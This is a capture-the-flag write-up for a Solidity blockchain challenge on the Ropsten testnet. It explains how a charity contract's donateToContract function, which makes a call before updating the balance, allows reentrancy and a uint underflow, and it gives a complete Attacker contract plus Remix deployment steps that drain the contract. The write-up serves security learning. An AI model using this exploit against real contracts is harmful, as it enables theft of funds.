# Writeup - Velgørenhed (Blockchain - Underflow & Reentrency)
## We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
We are first going to take a look at the smart contract to look for any potential vulnurabilites. When looking through the smart contract (either by hand or by using a tool like [slither](https://github.com/crytic/slither)) you may notice the function donateToContract.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

What is interesting about this function is that it does a call before setting the donatorBalance. This allows us to create a fallback that executes code and changes the state of the contract before the last line of code is executed in the function. The idea behind this is to change donatorBalance to a value lower than the variable amount. Doing this will create a underflow. And since donatorBalance is a uint (unsigned integer) it will wrap around giving us an insanely high donatorBalance.

#### Execution
To execute the smart contract functions we are going to use [Ethereum remix](https://remix.ethereum.org/). We are going to create two files. A attack.sol and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrency attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runes right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance that is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

##### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

##### Executing on the blockchain
To execute the attack function on the blockchain we need a wallet with Ropsten testnet ethereum. You can get testnet ethereum by using faucets on the internet. Then we are going to use metamask and connect it to ethereum remix by selecting injected web3. We then deploy our attack contract and execute the attack function with 0.1 ether. This will transact the attack on the Ropsten testnet and empty our contract.

#### Results
We have withdrawn the funds from the contract and we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
